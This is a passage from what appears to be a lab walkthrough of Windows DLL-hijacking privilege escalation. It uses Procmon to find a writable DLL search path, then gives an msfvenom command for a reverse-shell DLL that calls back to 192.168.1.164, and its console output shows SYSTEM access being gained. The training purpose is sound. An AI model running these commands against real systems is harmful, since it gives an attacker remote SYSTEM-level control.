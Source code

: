 3. Run Procmon64.exe as Administrator privileges (This will need to be done on test box). 
	1. Press Ctrl+L to open the Filter menu.  
	2. Add a new filter on the Process Name matching dllhijackservice.exe.  
	3. On the main screen, deselect registry activity and network activity.
4. Start the service:
> net start dllsvc   
5. Back in Procmon, note that a number of “NAME NOT FOUND” errors appear, associated with the hijackme.dll file. The last entry shows it looks in *C:\Temp* which we have write access to.   
 
![](../img/Dll-hijack.png)

6. Create a Dll payload and name it hijackme.dll then place it in *C:\Temp\\*. Then restart service
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.164 LPORT=53 -f dll -o hijackme.dll    
> copy \\192.168.1.164\tools\hijackme.dll C:\temp\    
> net stop dllsvc   
> net start dllsvc   
```powershell
C:\PrivEsc\tools>copy \\192.168.1.164\tools\hijackme.dll C:\temp\
copy \\192.168.1.164\tools\hijackme.dll C:\temp\
        1 file(s) copied.

C:\PrivEsc\tools>net stop dllsvc
net stop dllsvc

The DLL Hijack Service service was stopped successfully.

C:\PrivEsc\tools>net start dllsvc
net start dllsvc
The DLL Hijack Service service is starting..
[*] Command shell session 13 opened (192.168.1.164:53 -> 192.168.1.174:52895) at 2021-10-26 15:48:44 -0400

C:\PrivEsc\tools>sessions 13

[*] Backgrounding session 11...
[*] Starting interaction with 13...

C:\Windows\system32>whoami
whoami
nt authority\system
```
